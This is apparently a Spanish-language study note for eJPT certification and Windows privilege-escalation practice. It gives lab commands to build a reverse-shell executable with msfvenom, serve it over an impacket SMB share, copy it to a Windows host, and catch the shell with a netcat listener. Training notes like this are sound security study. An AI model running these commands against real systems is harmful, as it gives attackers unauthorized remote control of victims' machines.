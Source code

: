 
- En Kali, genere un ejecutable de shell inverso (reverse.exe) usando msfvenom. Actualice la dirección IP de LHOST en consecuencia:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe`
```

- Transfiera el archivo reverse.exe al directorio C:\PrivEsc en Windows. Hay muchas maneras en que podría hacer esto, sin embargo, la más simple es comenzar un SMB servidor en Kali en el mismo directorio que el archivo y, a continuación, utilice el comando de copia de Windows estándar para transferir el archivo.

- En Kali, en el mismo directorio que reverse.exe:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
```

- En Windows (actualice la dirección IP con su IP Kali):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`
```

- Pruebe el shell inverso configurando un oyente netcat en Kali:

```
sudo nc -nvlp 53`
```

- Luego ejecute el ejecutable reverse.exe en Windows y capture el shell:

```
C:\PrivEsc\reverse.exe`
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]